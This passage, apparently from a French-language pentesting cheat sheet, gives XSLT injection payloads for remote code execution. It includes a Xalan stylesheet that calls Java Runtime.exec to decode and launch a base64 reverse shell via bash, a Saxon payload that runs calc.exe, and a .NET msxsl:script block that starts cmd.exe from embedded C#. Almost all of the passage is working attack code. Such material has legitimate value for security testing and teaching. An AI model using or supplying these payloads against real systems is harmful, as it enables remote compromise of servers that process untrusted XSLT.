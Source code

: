 ```xml
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
  
  <xsl:template match="/">
    <xsl:variable name="rtobject" select="rt:getRuntime()"/>
    <xsl:variable name="process" select="rt:exec($rtobject,
      'bash -c {echo,BASE64_REVERSE_SHELL}|{base64,-d}|{bash,-i}')"/>
  </xsl:template>
</xsl:stylesheet>
```

**5.3 - Saxon processor :**

```xml
<xsl:stylesheet version="2.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:java="http://saxon.sf.net/java-type">
  
  <xsl:template match="/">
    <xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'calc.exe')"
                  xmlns:Runtime="java:java.lang.Runtime"/>
  </xsl:template>
</xsl:stylesheet>
```

***

#### 🎯 Technique 6 : RCE avec .NET (Windows)

**Description :** Exécuter du code C# directement dans XSLT pour les processeurs Microsoft.

**6.1 - Exécution CMD.exe :**

```xml
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:msxsl="urn:schemas-microsoft-com:xslt"
  xmlns:App="http://www.tempuri.org/App">
  
  <msxsl:script implements-prefix="App" language="C#">
    <![CDATA[
      public string Execute()
      {
        System.Diagnostics.Process.Start("cmd.exe", "/c calc.exe");
        return "Executed!";
      }
    ]]>
  </msxsl:script>
  
  <xsl:template match="/">
    <result><xsl:value-of select="App:Execute()"/></result>
  </xsl:template>
</xsl:stylesheet>
```
